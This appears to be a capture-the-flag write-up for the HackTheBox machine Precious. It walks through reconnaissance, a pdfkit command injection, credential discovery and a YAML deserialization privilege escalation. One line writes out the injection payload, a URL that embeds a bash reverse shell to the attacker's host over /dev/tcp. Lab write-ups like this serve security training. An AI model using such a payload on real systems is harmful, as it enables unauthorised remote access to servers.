 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226741282-9a311d20-c0e4-441b-a3f9-bcb0d5dbfee9.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226741456-c9a16920-e2fe-4c87-8a68-0d771287afd9.png)


- After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file. ` sudo nano /etc/hosts`

![image](https://user-images.githubusercontent.com/61332852/226741510-ddb0bf29-c230-4fe9-8358-b473047c2bcb.png)


- The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running `gobuster` to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.  

![image](https://user-images.githubusercontent.com/61332852/226741549-687b06b1-c12f-476c-af0a-c0ddc96cf4ae.png)


- After messing with the input box, I opened `BurpSuite` to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a ***"Cannot load remote URL"*** message. Thus, I began to start my own python webserver on my localhost. `python3 -m http.server 80` 

![image](https://user-images.githubusercontent.com/61332852/226741593-13dee221-b0eb-4078-be20-a70db1163a28.png)


- After inputting the local python server that I had started it returned the contents within the file directory of my local http server. 

![image](https://user-images.githubusercontent.com/61332852/226741686-71d0b8d6-a3fe-4b35-a3ab-bddf8e6f230e.png)


- I used `exiftool` to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the software that was converting the URL to PDF. 

![image](https://user-images.githubusercontent.com/61332852/226741706-65767298-d96a-4dd1-814f-43dbb8f7ee47.png)

- I used the `searchsploit` command again here to see if there was anything it would find for ***pdfkit v0.8.6*** which was the software that running. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the software running. I then found that it was vulnerable to ***command injection*** a type of injection vulnerability.    

![image](https://user-images.githubusercontent.com/61332852/226740759-38fc8f1e-892f-49a6-96ad-04a76634b2d9.png)

![image](https://user-images.githubusercontent.com/61332852/226741771-626f4fba-653e-4d38-bcc7-7bdad02b262e.png)

- Reading more of the vulnerability and what we can start to do to exploit it this is what I found. ***"An application could be vulnerable if it tries to render a URL that contains query string parameters with user input"***. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  

![image](https://user-images.githubusercontent.com/61332852/226741798-232aafb6-3c92-4762-ac57-ae0948790ac7.png)

- After grabbing a reverse shell command, I inserted it as a string within the URL ``http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}``. Thus, getting me in as the user `Ruby` within the webserver.  

![image](https://user-images.githubusercontent.com/61332852/226741845-35568897-9a2f-4712-bbd7-86bf2937fb09.png)

- Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything at first. I then used `ls -la`. I found something I don’t see usually which was a directory called `.bundle` which I then found a config file consisting of another user’s (`henry`) password.  

![image](https://user-images.githubusercontent.com/61332852/226741890-53eead9b-384a-46ef-b168-df9adea85aca.png)

- I began to login as the user `henry` with the given password. Successfully getting us in. I first checked Henrys home directory to check for any flags shown there. Then giving us our first flag.  

![image](https://user-images.githubusercontent.com/61332852/226741914-b662dae5-dbe7-45a2-96d4-4ce6ef85a913.png)


- To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

![image](https://user-images.githubusercontent.com/61332852/226741948-58605825-7332-4cd9-bc05-10009d7285a0.png)

- After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to a ***"Yaml Deserialization Attack"*** allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute. After looking for the Ruby Yaml Exploit code we found the code to run from a GitHub Host. We then created a file within our home folder `touch dependency.yml` to paste the following code into. 

![image](https://user-images.githubusercontent.com/61332852/226741989-6c02e501-2ada-453f-952f-736cf961fe04.png)

- After running `sudo /usr/bin/ruby /opt/update_dependencies.rb` we can now run `/bin/bash -p` to see if we spawn as the root user. Which is successful.

![image](https://user-images.githubusercontent.com/61332852/226742005-cf622090-5dc7-426d-bf62-5e5e6308d3b1.png)

- After going into roots home folder we find the root flag for the machine.

![image](https://user-images.githubusercontent.com/61332852/226742027-66aa5a44-f08a-4a2f-80db-823fe064db36.png) 
